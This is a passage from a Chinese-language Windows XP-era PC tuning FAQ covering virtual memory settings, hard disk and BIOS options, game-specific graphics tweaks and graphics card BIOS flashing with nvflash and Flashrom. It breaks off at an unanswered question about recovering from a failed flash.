首先用右键点击桌面上的“我的电脑”图标，在出现的右键菜单中选择“属性”选项打开“系统属性”窗口。在窗口中点击“高级”选项卡，出现高级设置的对话框。接着点击“性能”区域的“设置”按钮，在出现的“性能选项”窗口中选择“高级”选项，打开其对话框。在该对话框中可看到关于虚拟内存的区域，点击“更改”按钮进入“虚拟内存”的设置窗口。首先选择一个有较大空闲容量的分区，勾选“自定义大小”前的复选框，将具体数值填入“初始大小”、“最大值”栏中，而后依次点击“设置→确定”按钮即可，最后重新启动计算机使虚拟内存设置生效。建议大家划分出一个小分区专门提供给虚拟内存、IE 临时文件存储等使用，以后可以对该分区定期进行磁盘整理即可更好地提高计算机的工作效率。


#### 问题七

我应该如何决定自己需要多大的虚拟内存？

答：在 Windows 里面会自动帮大家将虚拟内存的数量设置成为物理内存的 1.5 倍，但现在大家的电脑上面恐怕都有 1GB 甚至 2GB 的内存了，难道要把虚拟内存设置成为 4G 吗？当然不是，因为大内存的系统和小内存的系统在设置虚拟内存时的标准不同，但 Windows 却一直都是“一视同仁”，我们自然更要手动来设置虚拟内存了。如果大家有 512MB 以上甚至 1GB 的内存，既然物理内存已经相当充足，所需的虚拟内存反而应该减少。故在大内存的系统中，虚拟内存的最小值可以设成物理内存的一半。比如有 1GB 的内存，虚拟内存的最小值设成 512MB，最大值则维持 3GB 以备不时之需。虽然最大值设为 3GB，系统是不会立即出现 3GB 大小的 pagefile.sys 文件，实际上它首先会以最小值出现，待有扩展需要时才会递增。有些大内存的朋友可能会干脆不设置虚拟内存，以此强迫系统使用速度较快的内存。其实这是不太明智的做法。正所谓凡事都不要做得太绝对，完全没有虚拟内存也不行。原因是不少应用程序在设计时要求必须使用虚拟内存，没有了就会造成系统不稳定或死机。至于小内存的系统，例如 256MB，参照 1.5 倍及 3 倍的设置比例最稳当，即虚拟内存最小值设为 384MB，最大值 768MB。

不过在这里我要介绍一个更加“精确”的方法，让大家首先测算出自己的系统到底需要多少虚拟内存，然后再去进行设置，将虚拟内存的最小值和最大值都设置成为同一个数字，这样虚拟内存就会达到理论上面的极速了。

首先在“开始→运行”中输入 perfmon.msc 打开系统监视器（如图 6），右下角有三个计数器，分别是 pages/sec、Avg. Disk Queue Length 和 Processor Time。我们先把这三个计数器都删除了，点选之后按 Del 键即可，这三个计数器在系统下次启动还是会出现的，因此不用担心。删除之后我们在图表中央位置单击鼠标右键，在弹出菜单里面选择“添加计数器”，在弹出窗口中的“性能对象”一栏选Process，然后在“从列表选择”一栏中点选Page File Bytes。不清楚Page File Bytes代表什么意思，只要单击“说明”按钮，解说文字便会出现在对话框之下。接下来在右方的“从列表选择范例”一栏选取Total项，之后依次单击“添加”和“关闭”按钮，一个名为Page File Bytes的计数器便会出现在性能监视器的下方了。接着我们重复以上的动作，再添加一个名为Page File Bytes Peak的计数器（即Process下面的Page File Bytes Peak）。

添加好了之后，我们还要用鼠标右键逐一单击监视器底部的Page File Bytes和Page File Bytes Peak计数器，并选“属性”一项。在“数据”页面的“比例”一栏中改为0.0000001。Page File Bytes和Page File Bytes Peak代表了系统监测期间所使用的虚拟内存及其峰值是多大。因此需要精确地手工设置虚拟内存，可参考图表下方显示的数字，其单位是Bytes。设置好了之后，我们就试试打开我们日常所需要的所有软件，再加上多媒体播放之类，看看虚拟内存的峰值到了多少吧，然后按照这个峰值去进行适当的设置，一定没错。

| 颜色 | 比例 | 计数器 | 实例 | 父系 | 对象 | 计算机 |
|---|---|---|---|---|---|---|
| 1.000 | Pages/sec | | | | Memory | \SFMAN |
| 100 | Avg. Disk... | Total | | | Phys... | \SFMAN |
| 1.000 | % Process... | Total | | | Proc... | \SFMAN |


#### 问题八

答：优化虚拟内存的方法有很多，下面是其中的几种。

-   (1) 使用较快的硬盘

新一代的硬盘在速度方面（无论是数据传输速度或读写速度）都应该比旧一代的硬盘更快，所以，如果用户买回新的硬盘，想获得最佳的系统性能，通常应把Windows操作系统重新安装到速度较快的新硬盘上。不过，如果大家因为某些原因（通常是懒惰或嫌麻烦）没有将Windows系统重装到新硬盘上，建议至少也应将虚拟内存改设到较快的新硬盘上。安装Windows XP所在的原硬盘分区仍应保留一定大小的虚拟内存。若完全没有，可能会出现系统不稳定的情况。

-   (2) 硬盘有足够空间

如果你不是很有经验的电脑用户，又或者没有特殊的使用要求，在Windows XP中选择“系统管理的大小”的方法来自动处理虚拟内存，一般情况下应该会比选择“自定义大小”的方法来得安全和稳定。不过由于虚拟内存的“页面文件”（pagefile.sys）会随着电脑使用过程进行收缩和扩展，为使系统管理虚拟内存能够进行得顺利和更具弹性，我们必须保证分页文件所在的硬盘拥有足够的可用空间。

-   (3) 分割存于多个硬盘

将虚拟内存设在较快的硬盘上可使虚拟内存的运行更有效率，但若电脑上两个硬盘速度一样快，则应将虚拟内存平均分配在两个不同的硬盘上（并非同一硬盘的不同分区），因为同步进行读写操作会更有效地提高系统整体的虚拟内存性能。假设你原本在硬盘C上设置了700MB的虚拟内存，现在你可尝试重新分配，即把硬盘C改为350MB，硬盘D新增350MB的虚拟内存。理论上这样做会加快虚拟内存整体的读写操作。

-   (4) 最小值等于最大值

选择“自定义大小”的方法来处理虚拟内存，并将最大值和最小值都设为同一数值，这样系统就不会频繁地改变虚拟内存的大小，速度也会得到一定的提高，如要将最大值和最小值设为相等，那么虚拟内存的大小必须足够，否则系统轻则会出现效率下降（要进行更多读写动作来腾出空间），严重的更会造成系统不稳定。

-   (5) 启用磁盘写入缓存

在“我的电脑”上单击鼠标右键选择“属性→硬件”，打开设备管理器找到当前正在使用的硬盘，单击鼠标右键选择属性。在硬盘属性的的“策略”页中，打开“启用磁盘上的写入缓存”。这个选项将会激活硬盘的写入缓存，从而提高硬盘的读写速度。不过要注意一点，这个功能打开后，如果计算机突然断电可能会导致无法挽回的数据丢失。

-   (6) 打开 Ultra MDA

在设备管理中选择IDE ATA/ATAPI控制器中的“基本/次要IDE控制器”，单击鼠标右键选择“属性”，打开“高级设置”。这里最重要的设置项目就是“传输模式”，一般应当选择“DMA（若可用）”。

-   (7) 内存使用选项

Windows XP运行过程中碰到致命错误时会将内存的快照保存为一个文件，以便进行系统调试时使用，对于大多数普通用户而言，这个文件是没有什幺用处的，反而会影响虚拟内存的性能。所以应当将其关闭。在“我的电脑”上单击鼠标右键，选择“属性→高级”，在“性能”下面单击“设置”按钮，在“性能选项”中选择“高级”。这里有一个“内存使用”选项，如果将其设置为“系统缓存”，Windows XP将使用约4MB的物理内存作为读写硬盘的缓存，这样就可以大大提高物理内存和虚拟内存之间的数据交换速度。默认情况下，这个选项是关闭的，如果计算机的物理内存比较充足，比如256MB或者更多，最好打开这个选项。但是如果物理内存比较紧张，还是应当保留默认的选项。

-   (8) 虚拟内存设置的分区

如果你有超过一块硬盘，那幺最好能把分页文件设置在没有安装操作系统或应用程序的硬盘上，或者所有硬盘中速度最快的硬盘上。这样在系统繁忙的时候才不会产生同一个硬盘既忙于读取应用程序的数据又同时进行分页操作的情况。相反如果应用程序和分页文件在不同的硬盘上，这样才能最大程度降低硬盘利用率，同时提高效率。如果你只有一个硬盘，就完全没必要将分页文件设置在其他分区了，同一个硬盘上不管设置在哪个分区中，对性能的影响都不是很大。

-   (9) 分页文件的碎片整理

硬盘使用时间长了将会产生文件碎片，而碎片太多就会影响系统的运行效率。因此最佳做法是定时整理硬盘碎片。但是在Windows运行的情况下pagefile.sys文件是会被锁定的，因此该文件中的碎片并不会被整理。要整理分页文件中的碎片，要靠两种方法。

##### 方法一：

假设你的操作系统和分页文件都位于 C 盘，首先将分页文件移动到 D 盘或者 E 盘等非系统盘，然后使用 Windows 自带的磁盘碎片整理程序对 C 盘进行整理磁盘碎片操作，可能需要经过多次整理才能完成得比较彻底。待整理完之后重新将分页文件设置到 C 盘，因为 C 盘已经进行过了完整的碎片整理，因此重新在 C 盘创建的分页文件将会是连续的，也就避免了碎片的产生。该方法不需要借助任何额外工具，不过操作上有点麻烦。

##### 方法二：

我们可以借助软件来简化我们的操作，譬如 PageDefrag，运行之后会看到如图 7 的界面。在这里我们不仅可以整理 pagefile.sys 的碎片，还可以整理很多其他平时因为被系统锁定而无法整理的系统文件。由于该软件不能在系统运行的时候对分页文件进行独占性访问，整理工作会在下一次启动系统的时候进行。你可以按照需要，选择下次启动时整理(Defragment at next Boot)，或者每次启动时整理(Defragment every Boot)，这里推荐使用前者。

经过上面的设置，相信你的虚拟内存已经处于最佳设置状态了，系统性能自然也会得到不少的提升。

### 三、硬盘优化

硬盘的性能关系到了系统的读取速度，可以说跟整个系统的表现都有直接的关系，但是在我们抱怨自己的硬盘速度慢的时候，应该先检查一下，看看我们是不是已经把硬盘的设置调到最佳了呢？

#### 问题一

请问 NCQ 功能是什么？我的硬盘如何打开 NCQ 功能呢？

答：NCQ 功能主要是用于现在的 SATA 硬盘上面，市面上支持 NCQ 的硬盘主要有迈拓的金钻 10 代 SATA 以及更新的产品，希捷酷鱼 7200.8 或者更新的产品系列中。NCQ 就是英文 Native Command Queuing 的缩写，意思就是“本机命令队列”。它的作用就是让硬盘可以在最短的时间、磁盘转头最小的次数里面读取到更多的文件。要打开 NCQ 功能，除了你的硬盘支持之外，还需要主板支持，一般来说，我们需要在主板里面打开 NCQ 选项，如果你的主板是 Intel 芯片组，采用 ICH6R/RW 南桥芯片的话，那么你必须在 BIOS 里面设置成为 RAID Ready，这样才能打开 AHCI 和 NCQ 功能。如果你有两个硬盘，除了设置成 RAID Ready 之外，RAID 0 模式也可以支持 AHCI 和 NCQ 功能。打开了隐藏设置之后，我们就可以在主板 BIOS 设置里面找到相应选项，即 SATA Mode。如果你的主板支持并且打开了 NCQ 支持功能，那么里面至少会有三个选项，包括 IDE、RAID、AHCI 让我们选择，不同版本的 BIOS 可能略有不同，不过相信大家都知道应该选择 AHCI 了。

如果你的硬盘是别的芯片组的话，可以在 BIOS 提供给我们的选项里面打开 NCQ 选项，譬如图 8 或者图 9，虽然选项的名称不同，但是只要大家认准 AHCI 就一定没错。在主板 BIOS 里面开启了 NCQ 之后还不够，我们还需要在安装 Windows 的时候开启 NCQ 选项。在安装 Windows 的时候，在看到蓝色的安装检测界面之后立刻按 F6 键，安装程序就会提示我们通过软盘去安装主板的 RAID 驱动程序。一般主板都带有这样的驱动程序，要注意的是我们在挑选驱动程序的时候一定要选择 AHCI 驱动程序，还有就是南桥芯片的型号一定要对应。安装完系统之后，我们可以打开设备管理器，去看看我们的 SATA 设备的属性，此时我们可以看到如图 10 的画面，里面的红色框框就是 NCQ 已经被打开而且启用的标志了。

由于 NCQ 是一种主机命令形式，也就是说当你的磁盘要读取数据的时候，会有一小段时间被用来计算以及分析如何在最短的时间里面读取这个文件。因此开启了 NCQ 功能之后，硬盘的寻道时间、突发的数据传输速率等等都会变慢，也就是说比正常模式稍有延迟。但是对于经常读取大量数据的朋友，譬如经常拷贝大文件、网上电影、图片处理的朋友来说，NCQ 就会大幅度提高性能将近 10%！因此我们可以根据自己的实际需要选择是否打开 NCQ。

#### 问题二

请问在 BIOS 里面有和硬盘相关的选项设置吗？我该如何设置？

答：BIOS 对硬盘的效能发挥起着至关重要的作用，因此对 BIOS 进行适当的设置可以加快我们的系统速度。

##### (1) Standard CMOS Setup

这里主要是对硬盘的工作模式和类型进行优化，我们一般会看到下列几种常见的工作模式：NORMAL、LBA、LARGE 以及 AUTO。在这里，建议各位优先选择 AUTO，既方便也安全。另外，在 TYPE 项中，最好能设置成 User，这样可以节省系统检测硬盘参数的时间，加快启动速度。

##### (2) BIOS Features Setup

我们最好将 Boot Sequence 项设置为 C Only，这样可以跳过对软驱的检测而直接从硬盘引导系统，既节约检测时间也可以避免软盘上的病毒侵入系统。另外 IDE HDD Block Mode 项是用来设置 IDE 设备块模式的扇区数，请设置为 Enabled，这样可以使用块模式传递数据，提高访问硬盘的速度。

#### 问题三

我还在使用 ATA 100 的硬盘，没有用 SATA，请问可以在 Windows 里面优化一下增加速度吗？答：其实 SATA 的速度并不是想象中的那么快，不一定会比 ATA 100 快很多，在很多情况下，我们觉得 ATA 100 的硬盘慢是因为接口的模式出现了问题，没有设置好。

##### (1) Intel 系列主板

安装 Intel 芯片组驱动程序后，虽然系统能正确识别出硬盘控制器和硬盘型号，但此时硬盘的接口模式却会降一级使用，也即 Ultra ATA/100/66 会降到 Ultra ATA/66/33，必须再另行安装 Intel Ultra ATA Storage 驱动程序，从 Companion 窗口中可以看到更多的信息，Default Transfer Mode 表示默认状态下的传输模式，Current Transfer Mode 表示当前状态使用的传输模式。

##### (2) VIA 系列主板

虽然 Windows 2000/XP 可以正确识别硬盘的型号，但安装了 VIA 四合一驱动程序包后，虽然系统能正确识别出硬盘控制器 VIA BUS Master PCI IDE Controller，但 Primary IDE Controller(dual fifo) 和 Secondary IDE Controller(dual fifo) 却仍使用着微软默认的驱动程序，而且此时 VIA DMA Tool 并不像在 Windows 9x/Me 下那样管理 UDMA 设备，因此如果硬盘是 Ultra ATA/100/66 的，就会降一级到 Ultra ATA/66/33，速度自然就慢了。碰到这种情况之后，我们可以去下载威盛发布的 IDE Miniport Driver，安装后可以在 VIA Bus Master PCI IDE Utility 中清楚地看到硬盘当前所处的接口模式，而且还能够手动切换，这样就能让硬盘工作在真正的 ATA 100 模式下面了。

#### 问题四

都说硬盘一旦出现了坏道就很危险，不能再使用了，请问有方法去防止坏道的发生吗？答：硬盘会出现坏道，排除掉正常的工作寿命的原因之外，应该是我们在平时的使用之中没有注意而引起的。

##### (1) 硬盘工作时不能突然关机

当硬盘开始工作时，一般都处于高速旋转之中，如果我们中途突然关闭电源，可能会导致磁头与盘片猛烈摩擦而损坏硬盘，因此要避免突然关机。关机时一定要注意面板上的硬盘指示灯是否还在闪烁，只有在其指示灯停止闪烁、硬盘读写结束后方可关闭计算机的电源开关。

##### (2) 防止灰尘

在灰尘严重的环境下，硬盘很容易吸引空气中的灰尘颗粒，使其长期积累在硬盘的内部电路元器件上，会影响电子元器件的热量散发，使得电路元器件的温度上升，产生漏电或烧坏元件。另外灰尘也可能吸收水分，腐蚀硬盘内部的电子线路，造成一些莫名其妙的问题，所以灰尘体积虽小，但对硬盘的危害不可低估。因此必须保持环境卫生，减少空气中的潮湿度和含尘量。还有就是好奇心强的用户绝对不能自行拆开硬盘盖，否则空气中的灰尘进入硬盘内，在磁头进行读、写操作时划伤盘片或磁头。

##### (3) 要定期整理硬盘文件碎片

在硬盘中，频繁地建立、删除文件会产生许多碎片，碎片积累多了，日后在访问某个文件时，硬盘可能会花费很长的时间，不但访问效率下降，而且还有可能损坏磁道。为此，我们应该经常使用 Windows 系统中的磁盘碎片整理程序对硬盘进行整理，整理完后最好再使用硬盘修复程序来修补那些有问题的磁道。

##### (4) 用手拿硬盘时要小心

在日常的电脑维护工作中，用手拿硬盘是再频繁不过的事了。也许这最常见的事情，最不能引起我们的注意。其实，用手拿硬盘还是有学问的，稍有不慎也会使硬盘“报废”的，因此我们在用手拿硬盘时首先要做到轻拿轻放，不要磕碰或者与其他坚硬物体相碰；另外不能用手随便地触摸硬盘背面的电路板。这是因为在气候干燥时，人体通常带有静电，在这种情况下用手触摸硬盘背面的电路板，则人体静电就可能伤害到硬盘上的电子元器件，导致硬盘无法正常运行。因此，我们在用手拿硬盘时应该抓住硬盘两侧，并避免与其背面的电路板直接接触。有些类型的硬盘会在其外部包上一层护膜，它除具备防震功能外，更把电路板保护其中，这样我们就可以不用担心什么静电了。

##### (5) 使用塑料或橡皮来消除硬盘噪音

在硬盘转速相对较高的情况下，如果硬盘被固定在金属托架上或者放置不当时，一旦接通电源，硬盘就有可能出现比较强烈的震动，时间一长，就有可能损坏硬盘的磁头或者划伤硬盘的磁道。为了消除噪音，我们可以利用硬盘上靠近四个角的安装螺钉孔，用弹力大、质地好的橡皮筋将硬盘悬吊在机箱内；如果硬盘是水平放置的，我们也可以利用弹性和尺寸适当的橡皮垫或橡皮柱垫在硬盘下面，以便达到减震的目的。这里要注意的是，我们选用橡皮筋悬吊时，应选取质量好、弹力大且有丝线包裹的那种，最好选用服装上使用的有编织物包裹的橡皮筋，以免橡皮筋失效后发生意外。适度拉紧橡皮筋，并注意安装过程中不要使橡皮筋受伤。

### 四、显示卡优化

有了强劲的 CPU、内存和硬盘还不够，如果我们的显卡不能物尽所用，发挥最大效能的话，我们在玩一些本来可以流畅运行的游戏时，往往就会觉得画面非常卡和慢了。由于显示卡的驱动和系统对显示卡的运用对显示卡的性能影响非常大，因此我们必须通过一系列的设置让我们的显示卡达到最高速。

#### 问题一

我的显示卡在运行 3D 游戏的时候有点力不从心，但是我看网上的同样显卡的测试文章，为什么别人的显卡可以流畅运行 50 帧，我的只有 20 多帧呢？

答：我不知道你玩的是什么游戏，但是出现和网上测试成绩相差那么远的情况，应当是驱动程序以及显示卡本身设置的问题。首先建议你到网上去下载最新版本的驱动程序，接下来就要去打开显示卡的三重缓冲。为什么要打开这三重缓冲呢？那是因为现在有的 3D 游戏在缺省状态下会开启垂直同步（v-sync），它会把帧速限制在屏幕刷新率以下，如果你用的是液晶显示器，每秒低于 60 帧的话，它就会自动把帧数限制在 30 帧之内，玩起来自然感觉很慢了。当然除了垂直同步之外，还和显示卡的图像渲染同时使用双重缓冲（double buffering）有关。要解决这个问题，就必须打开显示卡的三重缓冲，有了三重缓冲就相当于有 3 个缓冲区，显卡无需等待前缓冲区清空进而腾出后缓冲区，随时可以把渲染结果放入第 3 个缓冲区。这就是说，可以在打开垂直同步的同时保持应有的帧速了。ATi 和 nVidia 的驱动中都有打开三重缓冲（triple buffering）的选项，可惜这只能起到一半的作用，因为驱动中的 3 重缓冲选项只对 OpenGL 游戏起作用，加上 OpenGL 游戏远少于 D3D 游戏，所以事实上驱动的 3 重缓冲选项在超过一半情况都不起作用。我们要做的就是在 D3D 游戏里面打开这个三重缓冲。

解决的方法其实很简单，我们只需要一个软件工具，那就是使用 DirectX Tweaker，这个功能能够令 DirectX API 强制使用三重缓冲。我们可以在 http://www.nonentertainment.de/web/DirectXTweaker/Download/tabid/58/Default.aspx 下载这个软件，它的用户界面非常友好，安装也很简单：下载后解压缩就可以用了。主界面如图 11，我们在里面的 Name 之中输入一个游戏名，然后选择游戏运行的目录以及游戏的工作目录，记住后面的 Active 选项一定要勾选上。设置完了之后点击 Modules to load（模组载入）会见到如图 12 的窗口。

之后先点选上，然后在 Count 输入栏里面输入数字 2，最后点击上面的 Project，按下 Start 按钮，就可以开始游戏了。事实证明，许多不能流畅运行的游戏在开启了三重缓冲之后都会变得流畅起来。

最后还要提醒一下，那就是虽然三重缓冲能够加快显示卡速度，但是它却需要比原来多出 50% 的缓存空间，在某些时候可能会对游戏产生反效果。譬如当我们在 1600×1200 像素分辨率下运行游戏的时候，每个像素需要 32bit 空间储存信息，1600×1200×32=61,440,000 bit，将它转换成 MB 为单位，相当于 7.32MB。使用二级缓冲，需要 14.64MB 显存；为了使用三重缓冲，则需要 21.96MB 显存。当今显卡都板载 256MB 显存，因此用起来是没问题的，但是如果我们为了追求高画质开启了 4X FSAA 的话，就会多出了 4 倍采样，这就大于显存总容量的 1/3 了。再加上游戏需要用 200MB 的空间储存材质、光影、各种贴图等等，游戏效果就会变得非常糟糕。当然如果你的显示卡有 512MB 的显存，那么就尽情地去享受吧！

#### 问题二

我在玩网游《魔兽世界》的时候觉得显示卡不够流畅、很慢，请问有什么办法可以优化一下吗？

答：在进行优化之前，首先我们要让显示卡发挥最大的效能，在“开始→运行”里面运行 dxdiag 命令，出现如图 13 的窗口。切换到“显示”标签，确保打开“DirectDraw 加速”、“Direct3D 加速”、“AGP 纹理加速”三项，另外在显卡的 OpenGL 设置界面中勾选“默认的纹理着色深度”。接下来进入《魔兽世界》，在里面进行优化，因为《魔兽世界》用来调节图像质量的设置选项数量很多，我们完全可以在里面进行所有的优化操作。首先在视频窗口中将屏幕分辨率设置为 1024×768 像素，远景显示等级为 30%，材质细节最高，环境细节层次、顶点动态遮罩和硬件指针为打开状态，其余选项均关闭。经过这样的设置之后，只要是 Radeon 9550 或以上的显卡基本上可以流畅运行默认设置下的游戏了，倘若你希望游戏中的帧数更高或在稍微低端一点的显卡也能流畅运行，那么我们按步骤继续做下面的设置。

##### 步骤一：

在画质的设置面板中把远景显示、环境细节、地形阴影质量、材质细节等全部设置为低，而实现光影效果的顶点动态遮罩也去掉，甚至降低游戏分辨率，这样你就可以看到游戏的速度有很明显的提升了，有的显示卡甚至会提升 50% 以上。

##### 步骤二：

接下来开启“全屏幕泛光效果”，画面不仅明亮了许多而且变得非常柔和。然后我们将远景显示设置为 10%，用来观察远方的地形，在这种设置下低端的显卡也可以达到流畅运行的效果，同时也兼顾了游戏对画面的需求。

##### 步骤三：

接下来我们运行游戏之后，回到桌面，按 Ctrl + Shift + Esc 键打开任务管理器，切换到“进程”选项，右键单击游戏进程，选择“设置优先级→高”，这样就能保证在内存占用比较紧张的时候，《魔兽世界》最先获得系统分配的内存。

另外在默认情况下《魔兽世界》的运行模式为 DirectX 模式，所以最好安装 DirectX 9.0c 版本，不过对于硬件配置不够强劲的用户，可以用 OpenGL 模式进入，方法就是用记事本打开《魔兽世界》安装目录下的 config.wtf 文件，在其中加入一句：SET gxApi "opengl"，保存之后即可。这个方法对于某些用户进入游戏时提示“《魔兽世界》不支持你的 3D 加速卡，请安装支持 Dual-TMU 的 3D 加速卡”的情况同样有效，不过该模式下 fps 会有很大幅度的下降，根本的解决之道还是得升级你的显卡。

#### 问题三

我喜欢玩“DOOM”系列游戏，但是《DOOM3》非常耗费硬件，我的显示卡感觉支持不住了，请问有方法能够优化我的显示卡在《DOOM3》里面的表现吗？

答：《DOOM3》的官方推荐硬件配置是 ATi 8500 和 nVIDIA 的 GeForce4 MX440 显卡，最低 384MB 内存、P4 1.5GHz 或 AMD 1800+ 处理器，但实际上这样的配置根本不能流畅运行，除非我们对显示卡进行过重重优化，而且由于《DOOM3》对基于 nVIDIA 芯片的显卡作了优化，所以在同等频率下，nVIDIA 显卡的成绩会好于 ATi 显卡，但是通过优化后，这种差距可以缩小。

如果你的显卡是 GeForce 6600GT 或以上级别，那么在 1024×768 像素分辨率、高画质下就没有问题的。如果你是 7900GTX 的话，估计 1280×1024 像素是一点卡的感觉都没有。

如果不幸的是你的显示卡属于上面所说的第一档次，那么你最直接的方法就是通过超频来加速了。当你把默认频率为 250MHz/400MHz 的 Radeon 9550 或 Geforce 5700LE 通过 Rivetuner 超频至 325MHz/500MHz 以上，这时你至少在 800×600 像素下能够获得 30 帧以上的速度。另外一个就是在游戏画质上面进行取舍，大家都知道《DOOM3》的画面很精美，设置的选项也很多。如果显示卡的显存有 512MB，那么推荐使用最高画质 Ultra quality。256MB 显存的显卡选择 High quality，该模式下普通纹理贴图不压缩，保持原来的分辨率，这样在保持大约和最高画质的质量差不多的情况下大大减少了显存占用。如果显存只有 128MB，那么推荐选择 Medium quality，该模式下使用硬件压缩所有纹理，这样的画质表现还是不错，只是在尖锐角度和平滑边缘的图像与会有失真，至于 64MB 显卡，除了选择 Low quality 之外就只有不玩这一选择了。最后还要提示大家的就是有部分显卡，如 nVIDIA 5900ZT 在《DOOM3》中打开抗锯齿(AA)和各项异性过滤(AF)后将大幅度降低性能，大家在设置的时候需要注意。

#### 问题四

我的显示卡在玩《Half Life 2》的时候不是很流畅，询问有方法让它流畅起来吗？

答：其实《Half Life 2》不是一款对硬件要求很高的游戏，基本上所有的 DirectX 9 显卡都能在 1024×768 32 像素的模式下流畅运行，就算是 FX 5200 在 Celeron 2.4GHz 的平台上也会有 35 帧以上的成绩。但是如果你使用的是 DirectX 8 甚至是更加老旧的显卡，那么你就需要进行一定的优化了。如果你使用的是如 Ti500/8500/9100/9200/Ti4200/4600 等型号的显卡，可以按照下面的步骤来进行优化。

##### 步骤一：

调整分辨率，要知道 800×600 像素加上高画质的设置绝对比 1024×768 像素加低画质的设置要好。

##### 步骤二：

调整分辨率到 800×600 像素之后，接下来要设置 Model 和 Texture 细节为最高，这两项是画面质量的保证，必选。

##### 步骤三：

将反射效果开到最高，这也是画质的保证，梦幻般的水面反射效果和地板效果并不需要 DirectX 9 显卡来支持，在 DirectX 8 显卡上你能感受到 DirectX 9 显卡 90% 以上的效果。

##### 步骤四：

最后，打开阴影效果和 gamma 1.6 两个特性。《Half Life 2》的阴影和《DOOM3》差了不止一个档次，DirectX 8 显卡应付起来绰绰有余。低端的 DirectX 8 显卡因为做工用料问题，往往输出亮度不足，因此不但 gamma 要选 1.6，显示器要选高亮度，必要时还应当在显卡面板上设置亮度和对比度。如果你使用的是 ATi 显卡，可以在控制中心命令行中输入 +r_fastzreject 1。这个参数在 nVIDIA 显卡上是默认开启的，但是在 ATi 显卡上会遇到两种情况，当 CPU 成为瓶颈时，开启它可以提升性能；当 GPU 本身是瓶颈时，开启它反而会降低性能。

#### 问题五

听说给显示卡更新BIOS的话，能够提升不少速度，请问是不是真的？

答：更新BIOS一般来说都是解决一些兼容性的问题，当然也不排除某些显示卡和游戏不合理搭配造成的缓慢现象，在更新了BIOS之后得到大幅度的改善。不过要提醒大家，刷新BIOS有一定危险性，一定要三思而后行。

#### 问题六

我准备升级我的显示卡BIOS了，请问之前应该做些什么准备？

答：首先，我们需要确定显卡的型号，不同品牌的显卡BIOS是不一样的，一般都不能通用。而同一个品牌的显卡，如果采用不同的显示芯片（GPU），BIOS也不一样。即使采用同样显示芯片的产品，如果搭配了不同规格的显存，其BIOS也不相同。因此，在刷新显卡BIOS时，必须“对号入座”。如果刷入了不恰当的BIOS文件，轻则会使显卡工作不正常，重则导致显卡报废。刷新显卡BIOS的步骤如下。

- 步骤一：确定当前显卡的具体型号，最简单的方法就是查看显卡附带的包装盒、说明书。另外，显卡的PCB板上一般会有一张型号贴纸，通过它也能知道显卡的品牌及型号。
- 步骤二：确定当前显卡的BIOS版本，最常用的方法是通过查看显卡的驱动程序里面显示的BIOS版本信息（如图14）。
- 步骤三：下载新版BIOS文件，在厂商的网站上找到新版本的BIOS文件，将它下载到硬盘。需要注意的是，网上提供的下载文件一般都是压缩文件，需要用WinRAR之类的解压缩软件解压缩。注意看解压后的文件，后缀名为exe的文件是刷新工具（NVIDIA的专用刷新程序为nvFlash.exe，ATi的专用刷新程序为Flashrom.exe），而诸如XXXXX.rom、XXXXX.bin之类的文件，则是新的BIOS文件。
- 步骤四：制作DOS启动盘，因为BIOS刷新工作在纯DOS状态下运行更可靠，所以需要制作一张DOS启动盘，通过该启动盘可以引导系统进入纯DOS环境。制作好DOS启动盘后，还要将下载的BIOS刷新程序和升级文件复制到硬盘的同一目录下。比如，在C盘新建一个名为BIOS的文件夹，将下载得到的这些文件全部拷贝到该文件夹中。如果发现厂商提供的下载文件中没有附带刷新工具，则还必须到一些驱动网站去下载显卡的专用刷新工具。

#### 问题七

我的显示卡是NVIDIA的，请问该如何刷新显示卡BIOS呢？

答：首先通过启动盘进入到纯DOS环境下，在命令提示符后输入“nvflash -c”，测试显卡BIOS所使用的ROM类型。如果刷新程序支持显卡的ROM芯片，则会列出该芯片的详细信息，反之则出现错误提示。nvflash和各种命令参数配合使用时，可以实现不同的功能。

- 功能一：-f ——将名为filename的BIOS文件写入显卡的ROM芯片中，然后进行校验。
- 功能二：-b ——从显卡的ROM芯片中读取BIOS，并以filename的名字保存。
- 功能三：-k ——从显卡的ROM芯片中读取BIOS，并与名为filename的BIOS文件比较。
- 功能四：-c ——检测显卡ROM芯片是否支持刷新。
- 功能五：-h ——BIOS升级完成后重启机器。
- 功能六：-? ——获取刷新程序的详细说明，包括命令行参数、支持的ROM芯片等。

#### 问题八

请问应该如何刷新ATI显示卡的BIOS呢？

答：在刷新之前，我们同样要先备份当前显卡的BIOS。启动机器进入纯DOS环境，并进入C盘下的BIOS文件夹。在命令提示符下输入Flashrom.exe -s 0 backup.rom，按Enter键之后，便可将当前显卡的BIOS信息备份到BIOS文件夹中。在输入上述命令时，Flashrom.exe与“-s”之间有一个空格；“-s”与“0”之间也有一空格，此处的0为数字0，它表示系统中显卡的编号，即指AGP显卡；0与Backup.rom之间也有一空格。紧接着在命令提示符下输入Flashrom -p 0 newbios.rom（newbios.rom为升级的BIOS文件名），按Enter键之后程序便会将新BIOS写入当前显卡的BIOS芯片之中。等待数秒之后，如果发现没有出现错误信息则可以重新启动电脑了。

Flashrom和各种命令参数配合使用时，可以实现不同的功能。

- 功能一：-p ——向显卡ROM芯片中写入名为filename的BIOS文件，而num表示系统中其中一个显卡的编号。
- 功能二：-s ——对系统中第块显卡ROM芯片中的BIOS文件进行备份，并命名为filename。
- 功能三：-i ——显示ATi显卡的参数信息。

由于Flashrom在刷新显卡BIOS时会检查新BIOS的SSID（BIOS及设备ID），如果发现新BIOS的ID与显卡本身的ID不符，则会拒绝刷新并给出警告信息，这时候我们可以加上 -f参数进行强制刷新。如果确认新BIOS文件支持当前的显卡，则可以在刷新时输入Flashrom -p -f 0 newbios.rom，然后按Enter键执行。对于一些采用mBGA封装显存的显卡，如果加了 -f参数还是无法刷新，那就要注意：如果显卡的BIOS芯片是ATM公司的，则要在命令中加上 -atmel参数，也就是Flashrom -p -f atmel 0 newbios.rom；如果是SST公司的就加上 -sst参数，也就是Flashrom -p -f -sst 0 newbios.rom或Flashrom -p 0 newbios.rom -f -sst。

#### 问题九

如果我的显示卡BIOS刷新失败了怎么办？有解救的方法吗？

